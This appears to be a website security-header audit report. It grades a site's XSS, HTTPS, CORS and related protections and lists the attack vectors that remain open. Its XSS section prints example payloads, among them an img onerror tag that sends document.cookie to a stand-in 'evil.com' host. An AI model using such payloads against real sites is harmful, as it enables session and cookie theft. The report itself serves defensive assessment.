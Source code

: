 **Priority**: P2 - Update configuration

---

## Security Grade Breakdown

| Category | Score | Grade |
|----------|-------|-------|
| XSS Protection | 20/30 | D |
| Clickjacking Protection | 10/10 | A+ |
| HTTPS Enforcement | 0/20 | F |
| Information Disclosure | 15/15 | A |
| CORS Configuration | 0/15 | F |
| Browser Features | 0/10 | F |
| **Overall** | **45/100** | **F** |

---

## Attack Vectors Still Possible

### 1. Cross-Site Scripting (XSS)
**Risk**: CRITICAL
**Reason**: No Content-Security-Policy

**Example Attack**:
```html

<img src=x onerror="fetch('https://evil.com/steal?c='+document.cookie)">


https://example.com/search?q=<script>alert(document.cookie)</script>
```

**Mitigation**: Implement strict CSP

---

### 2. Man-in-the-Middle (MITM)
**Risk**: CRITICAL
**Reason**: No HSTS header

**Example Attack**:
```
1. User connects to http://example.com (unencrypted)
2. Attacker intercepts and serves fake login page
3. User enters credentials
4. Attacker captures credentials
```
